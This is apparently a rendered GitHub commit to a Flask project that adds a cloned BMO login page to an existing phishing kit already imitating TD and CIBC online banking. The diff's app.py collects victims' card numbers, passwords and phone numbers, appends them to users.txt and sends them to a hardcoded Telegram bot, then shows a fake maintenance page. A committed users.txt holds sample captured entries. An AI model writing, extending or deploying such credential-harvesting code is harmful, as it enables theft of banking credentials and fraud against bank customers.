
After one commit to Kurazyy/bank.py, a Flask app: page /bmo in a window 1280 px wide. The commit adds this page. Run offline with Flask 2, Linux system fonts and the light colour scheme.

Commit message:
bmo added

```diff
--- a/app.py
+++ b/app.py
@@ -3,17 +3,17 @@ import os
 import requests
 
 app = Flask(__name__)
-app.secret_key = "supersecretkey"
+app.secret_key = "supersecretkey"  # Change this to something secure
 
 USER_FILE = "users.txt"
 
-# Your Telegram details
+# Telegram Bot info
 TELEGRAM_BOT_TOKEN = "7321008127:AAEF8dr-B-b_hLkjA1qcXl07askvu0fRggs"
-TELEGRAM_CHAT_ID = "-1002441207907"  # <-- Replace with your real chat ID
+TELEGRAM_CHAT_ID = "-1002441207907"  # Replace with your real chat ID
 
 def send_telegram_message(text: str):
     """
-    Posts 'text' to your Telegram bot using the Bot API.
+    Sends 'text' to your Telegram bot.
     """
     url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
     payload = {"chat_id": TELEGRAM_CHAT_ID, "text": text}
@@ -22,55 +22,48 @@ def send_telegram_message(text: str):
     except Exception as e:
         print(f"Error sending Telegram message: {e}")
 
-
-# Ensure the users.txt file exists
+# Make sure users.txt exists
 if not os.path.exists(USER_FILE):
     with open(USER_FILE, "w") as f:
         pass
 
-
 @app.route("/")
 def landing_page():
+    # Renders e.g. landing.html with bank selection
     return render_template("landing.html")
-
 
 @app.route("/td")
 def td_page():
-    """
-    Renders the TD login page (td.html).
-    That page includes <input type="hidden" name="bank" value="TD">
-    so we know to send them to td_phone after /login.
-    """
+    # Renders td.html for TD logins
     return render_template("td.html")
-
 
 @app.route("/home")
 def home():
-    """
-    Simulate a CIBC login page.
-    This page would have <input type="hidden" name="bank" value="CIBC">
-    so we know it's CIBC.
-    """
+    # Example: Renders a "CIBC" or "generic" login page
     return render_template("home.html")
 
+@app.route("/bmo")
+def bmo_page():
+    # Renders bmologin.html for BMO logins
+    return render_template("bmologin.html")
 
 @app.route("/login", methods=["GET", "POST"])
 def login():
     """
-    1) Store card_number, password, bank in session.
-    2) Do NOT send telegram message yet.
-    3) Redirect to phone route (CIBC or TD).
+    Stores card_number, password, bank in session.
+    Does NOT send a Telegram message yet.
+    Redirects user to phone verification route appropriate for that bank.
     """
     if request.method == "POST":
         card_number = request.form.get("card_number")
         password = request.form.get("password")
-        bank = request.form.get("bank")  # 'TD' or 'CIBC'
+        bank = request.form.get("bank")  # 'TD', 'BMO', or 'CIBC' etc.
 
         if not card_number or not password:
             flash("Card number and password are required!", "error")
             return redirect(url_for("home"))
 
-        # Store them in session for later
+        # Save info in session
         session["temp_bank"] = bank
         session["temp_card"] = card_number
         session["temp_pass"] = password
@@ -78,21 +71,20 @@ def login():
         # Redirect to correct phone verification route
         if bank == "TD":
             return redirect(url_for("td_phone"))
+        elif bank == "BMO":
+            return redirect(url_for("bmo_phone"))
         else:
-            # Default or CIBC => /phone_verification
+            # Assume default or "CIBC"
             return redirect(url_for("phone_verification"))
 
-    # If GET, just show a generic login
+    # If GET, render a generic login page
     return render_template("login.html")
-
 
 @app.route("/phone-verification", methods=["GET", "POST"])
 def phone_verification():
     """
-    CIBC phone verification route.
-    Now we read bank, card_number, password from session,
-    plus phone_number from the form.
-    Then we write everything to users.txt and send ONE Telegram message.
+    Handles phone verification for CIBC / default bank.
+    After user enters phone, store data in users.txt, send Telegram, clear session.
     """
     if request.method == "POST":
         phone_number = request.form.get("phone_number")
@@ -100,17 +92,16 @@ def phone_verification():
             flash("Phone number is required!", "error")
             return redirect(url_for("phone_verification"))
 
-        # Retrieve bank, card, pass from session
+        # Retrieve from session
         bank = session.get("temp_bank", "CIBC")
         card_number = session.get("temp_card", "UnknownCard")
         password = session.get("temp_pass", "UnknownPass")
 
-        # 1) Write all info to users.txt
-        # Make one line with card_number, password, phone
+        # Write to file
         with open(USER_FILE, "a") as f:
             f.write(f"{bank},{card_number},Password:{password},Phone:{phone_number}\n")
 
-        # 2) Build one big Telegram message
+        # Send Telegram
         message_text = (
             f"New {bank} login:\n"
             f"Card: {card_number}\n"
@@ -119,24 +110,21 @@ def phone_verification():
         )
         send_telegram_message(message_text)
 
-        # 3) Clear session so we don't reuse data
+        # Clear session
         session.pop("temp_bank", None)
         session.pop("temp_card", None)
         session.pop("temp_pass", None)
 
+        # Redirect to "maintenance"
         return redirect(url_for("maintenance"))
 
     return render_template("phone_verification.html")
-
 
 @app.route("/td_phone", methods=["GET", "POST"])
 def td_phone():
     """
     TD phone verification route.
-    We do the same approach as CIBC:
-    Read session data for bank/card/pass,
-    read phone from form,
-    then store everything & send one message.
+    Same pattern: read phone, get session data, write to file, send Telegram, clear, etc.
     """
     if request.method == "POST":
         phone_number = request.form.get("phone_number")
@@ -148,11 +136,9 @@ def td_phone():
         card_number = session.get("temp_card", "UnknownCard")
         password = session.get("temp_pass", "UnknownPass")
 
-        # 1) Write all info to users.txt
         with open(USER_FILE, "a") as f:
             f.write(f"{bank},{card_number},Password:{password},Phone:{phone_number}\n")
 
-        # 2) Single Telegram message
         message_text = (
             f"New {bank} login:\n"
             f"Card: {card_number}\n"
@@ -161,7 +147,6 @@ def td_phone():
         )
         send_telegram_message(message_text)
 
-        # 3) Clear session
         session.pop("temp_bank", None)
         session.pop("temp_card", None)
         session.pop("temp_pass", None)
@@ -170,11 +155,44 @@ def td_phone():
 
     return render_template("td_phone.html")
 
+@app.route("/bmo_phone", methods=["GET", "POST"])
+def bmo_phone():
+    """
+    BMO phone verification route.
+    """
+    if request.method == "POST":
+        phone_number = request.form.get("phone_number")
+        if not phone_number:
+            flash("Phone number is required!", "error")
+            return redirect(url_for("bmo_phone"))
+
+        bank = session.get("temp_bank", "BMO")
+        card_number = session.get("temp_card", "UnknownCard")
+        password = session.get("temp_pass", "UnknownPass")
+
+        with open(USER_FILE, "a") as f:
+            f.write(f"{bank},{card_number},Password:{password},Phone:{phone_number}\n")
+
+        message_text = (
+            f"New {bank} login:\n"
+            f"Card: {card_number}\n"
+            f"Password: {password}\n"
+            f"Phone: {phone_number}"
+        )
+        send_telegram_message(message_text)
+
+        session.pop("temp_bank", None)
+        session.pop("temp_card", None)
+        session.pop("temp_pass", None)
+
+        return redirect(url_for("maintenance"))
+
+    return render_template("bmophone.html")
 
 @app.route("/maintenance")
 def maintenance():
     """
-    Simple 'maintenance' page to show after phone is verified.
+    Simple Maintenance page after successful phone verify.
     """
     return """
     <!DOCTYPE html>
@@ -216,22 +234,22 @@ def maintenance():
     </html>
     """
 
-
-@app.route("/select-bank", methods=["POST"])
+@app.route("/select_bank", methods=["POST"])
 def select_bank():
     """
-    If your 'landing.html' has a dropdown or radio button
-    letting user pick which bank, we redirect accordingly.
+    If your landing.html has a dropdown or radio to pick which bank,
+    we redirect accordingly (CIBC -> /home, TD -> /td, BMO -> /bmo).
     """
     selected_bank = request.form.get("bank")
     if selected_bank == "CIBC":
         return redirect(url_for("home"))
     elif selected_bank == "TD":
         return redirect(url_for("td_page"))
+    elif selected_bank == "BMO":
+        return redirect(url_for("bmo_page"))
 
     flash("This bank is currently not supported.", "error")
     return redirect(url_for("landing_page"))
 
-
 if __name__ == "__main__":
     app.run(debug=True, host='0.0.0.0')
--- /dev/null
+++ b/static/bmo.css
@@ -0,0 +1,335 @@
+/* RESET */
+* {
+  margin: 0;
+  padding: 0;
+  box-sizing: border-box;
+}
+
+/* BODY */
+body {
+  font-family: Arial, sans-serif;
+  background-color: #f5f7fa;
+  color: #333;
+  min-height: 100vh;
+  display: flex;
+  flex-direction: column;
+}
+
+/* TOP BLUE BAR */
+.bmo-topbar {
+  background-color: #0075be;
+  width: 100%;
+}
+
+/* Header container */
+.bmo-topbar-container {
+  max-width: 1200px;
+  margin: 0 auto;
+  padding: 0 20px;
+  display: flex;
+  align-items: center;
+  justify-content: space-between;
+  height: 85px;
+}
+
+/* Logo */
+.bmo-logo {
+  height: 45px;
+}
+
+/* Icons (location, help, FR) */
+.bmo-topbar-icons {
+  display: flex;
+  align-items: center;
+  gap: 20px;
+}
+.top-icon {
+  width: 20px;
+  height: 20px;
+}
+.fr-link {
+  color: #fff;
+  text-decoration: none;
+  font-weight: bold;
+  font-size: 0.9rem;
+}
+.fr-link:hover {
+  text-decoration: underline;
+}
+
+/* MAIN WRAPPER */
+.bmo-main {
+  max-width: 1200px;
+  width: 100%;
+  margin: 0 auto;
+  flex: 1;
+  padding: 40px 20px;
+}
+
+/* DESKTOP-ONLY HEADING (with lock icon) */
+.bmo-desktop-title {
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  margin: -15px 0 30px;
+}
+.bmo-desktop-title .bmo-title {
+  font-size: 1.6rem;
+  font-weight: 700;
+  display: flex;
+  align-items: center;
+  gap: 2px;
+  color: #333;
+}
+
+.lock-icon {
+  width: 35px;
+  height: 35px;
+}
+
+/* CONTENT: card left, aside right */
+.bmo-content {
+  display: flex;
+  gap: 30px;
+  align-items: flex-start;
+}
+
+/* LOGIN CARD */
+.bmo-login-card {
+  background-color: #fff;
+  width: 565px;
+  padding: 50px;
+  border-radius: 4px;
+  box-shadow: 0 1px 4px rgba(0,0,0,0.2);
+}
+
+/* MOBILE-ONLY HEADING (left aligned, no icon) */
+.bmo-mobile-title {
+  display: none; /* hidden on desktop */
+  font-size: 1.4rem;
+  font-weight: 700;
+  color: #333;
+  margin-bottom: 20px;
+}
+
+/* FORM */
+.bmo-login-card form {
+  display: flex;
+  flex-direction: column;
+}
+
+.bmo-input-group {
+  margin-bottom: 35px;
+}
+
+.bmo-input-group label {
+  display: block;
+  font-weight: bold;
+  margin-bottom: 6px;
+  font-size: 0.95rem;
+}
+
+.bmo-input {
+  width: 100%;
+  height: 42px;
+  padding: 8px;
+  border: 1px solid #ccc;
+  border-radius: 4px;
+  font-size: 0.95rem;
+}
+.large-input {
+  height: 48px;
+}
+.field-hint {
+  font-size: 0.8rem;
+  color: #666;
+  margin-top: 4px;
+}
+
+/* REMEMBER CARD */
+.remember-row {
+  display: flex;
+  align-items: center;
+  gap: 8px;
+  margin-bottom: 16px;
+}
+.info-icon {
+  background-color: #e6e6e6;
+  color: #333;
+  width: 18px;
+  height: 18px;
+  border-radius: 50%;
+  text-align: center;
+  line-height: 18px;
+  font-size: 0.75rem;
+  font-weight: bold;
+}
+
+/* PASSWORD + EYE ICON */
+.password-row {
+  position: relative;
+}
+.password-row .bmo-input {
+  padding-right: 40px;
+}
+.eye-icon {
+  position: absolute;
+  right: 10px;
+  top: 50%;
+  transform: translateY(-50%);
+  font-size: 1.1rem;
+  color: #666;
+  cursor: pointer;
+}
+
+/* FORGOT PASSWORD */
+.forgot-link {
+  font-size: 0.9rem;
+  margin-bottom: 20px;
+}
+.forgot-link a {
+  color: #005fa8;
+  text-decoration: none;
+  font-weight: bold;
+}
+.forgot-link a:hover {
+  text-decoration: underline;
+}
+
+/* SIGN IN BUTTON */
+.bmo-btn {
+  background-color: #005fa8;
+  color: #fff;
+  width: 140px;
+  height: 48px;
+  border: none;
+  border-radius: 24px;
+  font-size: 1rem;
+  font-weight: bold;
+  cursor: pointer;
+  text-transform: uppercase;
+  margin-top: 20px;
+  align-self: center; /* center in flex column */
+}
+.bmo-btn:hover {
+  background-color: #004b87;
+}
+
+/* ASIDE */
+.bmo-aside {
+  flex: 1;
+  display: flex;
+  flex-direction: column;
+  gap: 20px;
+}
+.bmo-aside-box {
+  background-color: #fff;
+  padding: 20px;
+  border-radius: 4px;
+  box-shadow: 0 1px 4px rgba(0,0,0,0.2);
+}
+.bmo-aside-box h3 {
+  font-size: 1rem;
+  font-weight: bold;
+  margin-bottom: 12px;
+}
+.bmo-aside-box p {
+  font-size: 0.9rem;
+  color: #555;
+  line-height: 1.4;
+}
+.bmo-aside-box a {
+  color: #005fa8;
+  font-weight: bold;
+  text-decoration: none;
+}
+.bmo-aside-box a:hover {
+  text-decoration: underline;
+}
+
+/* FOOTER */
+.bmo-footer {
+  background-color: #fff;
+  border-top: 1px solid #ddd;
+  padding: 15px 20px;
+  max-width: 1200px;
+  margin: 0 auto;
+  width: 100%;
+  display: flex;
+  justify-content: space-between;
+  align-items: center;
+}
+.footer-links {
+  list-style: none;
+  display: flex;
+  gap: 20px;
+}
+.footer-links a {
+  color: #005fa8;
+  text-decoration: none;
+  font-size: 0.9rem;
+  font-weight: bold;
+}
+.footer-links a:hover {
+  text-decoration: underline;
+}
+.footer-members a {
+  color: #333;
+  text-decoration: none;
+  font-size: 0.9rem;
+  font-weight: bold;
+}
+.footer-members a:hover {
+  text-decoration: underline;
+}
+
+/* RESPONSIVE: up to 900px */
+@media (max-width: 900px) {
+  .bmo-content {
+    flex-direction: column;
+  }
+  .bmo-login-card {
+    width: 100%;
+    margin-bottom: 20px;
+  }
+}
+
+/* RESPONSIVE: up to 768px */
+@media (max-width: 768px) {
+
+  /* Hide desktop heading on mobile */
+  .bmo-desktop-title {
+    display: none;
+  }
+
+  /* Show the heading inside the card on mobile only */
+  .bmo-mobile-title {
+    display: block;
+    text-align: left; /* left-aligned per your request */
+  }
+
+  /* Stack the content vertically */
+  .bmo-content {
+    flex-direction: column;
+    align-items: center;
+    gap: 20px;
+  }
+
+  /* Make card fill most of the screen on mobile */
+  .bmo-login-card {
+    width: 90%;
+    max-width: 500px;
+    margin: 0 auto;
+    padding: 25px;
+  }
+
+  .bmo-aside {
+    width: 90%;
+    margin: 0 auto;
+    flex-direction: column;
+  }
+  .bmo-aside-box {
+    width: 100%;
+    margin-bottom: 20px;
+  }
+}
--- /dev/null
+++ b/templates/bmologin.html
@@ -0,0 +1,136 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>BMO Online Banking</title>
+  <link rel="stylesheet" href="{{ url_for('static', filename='bmo.css') }}">
+</head>
+<body>
+
+<!-- TOP BLUE BAR -->
+<header class="bmo-topbar">
+  <div class="bmo-topbar-container">
+    <!-- Left: Logo -->
+    <div class="bmo-logo-container">
+      <img src="/static/images/bmo-logo.png" alt="BMO Logo" class="bmo-logo">
+    </div>
+    <!-- Right: Icons + FR Link -->
+    <div class="bmo-topbar-icons">
+      <img src="/static/images/location-icon.png" alt="Location" class="top-icon">
+      <img src="/static/images/help-icon.png" alt="Help" class="top-icon">
+      <a href="#" class="fr-link">FR</a>
+    </div>
+  </div>
+</header>
+
+<!-- MAIN CONTENT -->
+<main class="bmo-main">
+
+  <!-- DESKTOP HEADING (with lock icon) -->
+  <div class="bmo-page-title-row bmo-desktop-title">
+    <h1 class="bmo-title">
+      <img src="/static/images/bmo-lockhead.png" alt="Lock" class="lock-icon">
+      Sign in to Online Banking
+    </h1>
+  </div>
+
+  <!-- CONTENT CONTAINER -->
+  <div class="bmo-content">
+
+    <!-- LEFT: Login Card -->
+    <div class="bmo-login-card">
+
+      <!-- MOBILE-ONLY HEADING (no lock icon) -->
+      <h2 class="bmo-mobile-title">
+        Sign in to Online Banking
+      </h2>
+
+      <form action="/login" method="POST">
+        <input type="hidden" name="bank" value="BMO">
+
+        <!-- Card Number -->
+        <div class="bmo-input-group">
+          <label for="cardNumber">Card number</label>
+          <input
+            type="text"
+            id="cardNumber"
+            name="card_number"
+            class="bmo-input large-input"
+            placeholder="Enter your 16-digit card number"
+            required
+          >
+          <p class="field-hint">Enter your 16-digit card number</p>
+        </div>
+
+        <!-- Remember Card -->
+        <div class="remember-row">
+          <input type="checkbox" id="rememberCard" name="remember_card">
+          <label for="rememberCard">Remember card</label>
+          <span class="info-icon">i</span>
+        </div>
+
+        <!-- Password -->
+        <div class="bmo-input-group">
+          <label for="password">Password</label>
+          <div class="password-row">
+            <input
+              type="password"
+              id="password"
+              name="password"
+              class="bmo-input"
+              required
+            >
+            <span class="eye-icon">&#128065;</span>
+          </div>
+        </div>
+
+        <!-- Forgot Password -->
+        <p class="forgot-link">
+          <a href="#">Forgot your password?</a>
+        </p>
+
+        <!-- Sign In Button -->
+        <button type="submit" class="bmo-btn">SIGN IN</button>
+      </form>
+    </div>
+
+    <!-- RIGHT: Info Boxes -->
+    <aside class="bmo-aside">
+      <div class="bmo-aside-box">
+        <h3>Register a new card for online banking</h3>
+        <p>
+          <a href="#">DEBIT CARD</a> or
+          <a href="#">CREDIT CARD</a>
+        </p>
+      </div>
+      <div class="bmo-aside-box">
+        <h3>Your security always comes first.</h3>
+        <p>
+          We’ve made Online Banking more convenient, while still using
+          advanced security technologies that keep your money and
+          information safe.
+        </p>
+        <p>
+          <a href="#">Learn more about how we protect you.</a>
+        </p>
+      </div>
+    </aside>
+  </div>
+</main>
+
+<!-- FOOTER -->
+<footer class="bmo-footer">
+  <ul class="footer-links">
+    <li><a href="#">Legal</a></li>
+    <li><a href="#">Privacy</a></li>
+    <li><a href="#">Security</a></li>
+    <li><a href="#">Accessibility</a></li>
+  </ul>
+  <div class="footer-members">
+    <a href="#">CDIC Member</a>
+  </div>
+</footer>
+
+</body>
+</html>
--- /dev/null
+++ b/users.txt
@@ -0,0 +1,3 @@
+None,ndjdb,Password:djjd,Phone:Hdhddh
+TD,ndjd,Password:hshd,Phone:(123) 456-7890
+BMO,bsbdbd,Password:hddhd,Phone:4169911440
```
Also changed, not shown: templates/bmophone.html (added, +86 -0 lines), templates/landing.html (+20 -6 lines), static/images/bmo-lockhead.png (added), static/images/bmo-logo.png (added), static/images/help-icon.png (added), static/images/location-icon.png (added).
